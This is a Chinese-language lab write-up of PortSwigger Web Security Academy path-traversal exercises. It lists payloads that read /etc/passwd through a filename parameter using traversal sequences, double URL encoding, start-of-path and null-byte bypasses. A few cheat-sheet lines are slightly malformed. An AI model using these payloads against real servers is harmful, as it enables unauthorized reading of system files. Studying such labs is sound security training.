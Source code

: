 [toc]

#### 0. 绕过方式

* `?filename=../../../../../etc/passwd`
* `?filename/etc/passwd`
* `?filename=....//....//....//etc/passwd`，没有递归删除`../`
* `?filename..%252f..%252f..%252fetc/passwd`，两次url编码
* `?filename/var/www/image/../../../etc/passwd`，传递的参数要求以预定的文件夹开始
* `?filename=../../../etc/passwd%00.png`，传递的参数要求以某种后缀结尾

#### 1. File path traversal, simple case

```
https://ac741f4b1e3923b280e1fc40009600fc.web-security-academy.net/image?filename=../../../../../../etc/passwd
```

#### 2. File path traversal, traversal sequences blocked with absolute path bypass

> The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory.

`/image?filename=/etc/passwd`

#### 3. File path traversal, traversal sequences stripped non-recursively

在使用之前，应用程序从用户提供的文件名中剥离路径遍历序列。但是没有递归删除`../`。

`/image?filename=....//....//....//etc/passwd`

#### 4. File path traversal, traversal sequences stripped with superfluous URL-decode

> The application blocks input containing [path traversal](https://portswigger.net/web-security/file-path-traversal) sequences. It then performs a URL-decode of the input before using it.

先检测了`../`，但是之后又url-decode了一次，那将路径进行两次url编码。

#### 5. File path traversal, validation of start of path

> The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.

这里预期的文件夹是`/var/www/image`。

`/image?filename=/var/www/images/../../../etc/passwd`

#### 6. File path traversal, validation of file extension with null byte bypass

传递的参数要求以`.png`后缀结尾。

`/image?filename=../../../etc/passwd%00.png`